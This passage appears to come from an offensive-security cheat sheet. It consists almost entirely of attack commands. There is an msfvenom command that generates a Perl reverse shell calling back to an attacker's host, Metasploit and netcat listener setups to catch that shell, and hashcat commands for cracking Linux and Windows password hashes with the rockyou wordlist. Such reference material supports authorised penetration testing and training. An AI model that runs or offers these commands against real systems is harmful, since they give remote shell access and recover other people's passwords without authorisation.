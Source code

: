 ```
msfvenom -p cmd/unix/reverse_perl LHOST=<IP> LPORT=<PORT> -f raw > shell.pl
```

### Listener

#### Metasploit

```
use exploit/multi/handler
set PAYLOAD <PAYLOAD>
set LHOST <LHOST>
set LPORT <LPORT>
set ExitOnSession false
exploit -j -z
```

#### Netcat

```
nc -lvp <PORT>
```

------

## PASSWORD CRACKING

### Online

```
Decrypt MD5, SHA1, MySQL, NTLM, SHA256, SHA512 hashes
https://hashes.com/en/decrypt/hash
```

### Hashcat

#### Linux password

```
hashcat -m 1800 -a 0 hash.txt rockyou.txt
hashcat -m 1800 -a 0 hash.txt rockyou.txt -r OneRuleToRuleThemAll.rule
```

#### Windows password

```
hashcat -m 1000 -a 0 hash.txt rockyou.txt
hashcat -m 1000 -a 0 hash.txt rockyou.txt -r OneRuleToRuleThemAll.rule
```

#### Others

```
hashcat --example-hashes | grep -i '<BEGINNING_OF_HASH>'
```
